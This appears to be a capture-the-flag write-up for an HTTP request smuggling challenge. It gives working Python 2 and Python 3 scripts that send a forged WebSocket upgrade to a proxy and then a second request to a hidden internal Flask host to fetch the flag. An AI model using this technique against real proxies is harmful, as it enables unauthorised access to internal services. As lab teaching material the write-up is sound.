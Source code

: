 
<p align="center">
<img width="250" src="../static/solution.png">
</p>

 This one is a more difficult variant of HTTP request smuggling. To access the target API and Page in the hidden network we need to write an Exploit. You can use the one below (with Python2...pain or gain)

  ```python
  #!/usr/bin/env python2
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
```


<p align="center">
<img width="600" src="../static/haha.gif">
<br> Python 2 ... is not dead yet - anyway was just kidding. <br> The Python 3 variant is below:
</p>

```python
#!/usr/bin/env python3
import socket

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: localhost:9020
Sec-WebSocket-Version: 13
Upgrade: websocket
Connection: Upgrade

""".replace('\n', '\r\n')


req2 = """GET /flag HTTP/1.1
Host: flask.net:5000

""".replace('\n', '\r\n')

def main(uri):
    host, port = uri.split(':')

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((host, int(port)))

        sock.sendall(req1.encode('utf8'))
        data = sock.recv(4096)
        print(data)

        sock.sendall(req2.encode('utf8'))
        data = sock.recv(4096)
        data = data.decode(errors = 'ignore')

        print(data)

        sock.shutdown(socket.SHUT_RDWR)

if __name__ == "__main__":
    main('localhost:9020')
```


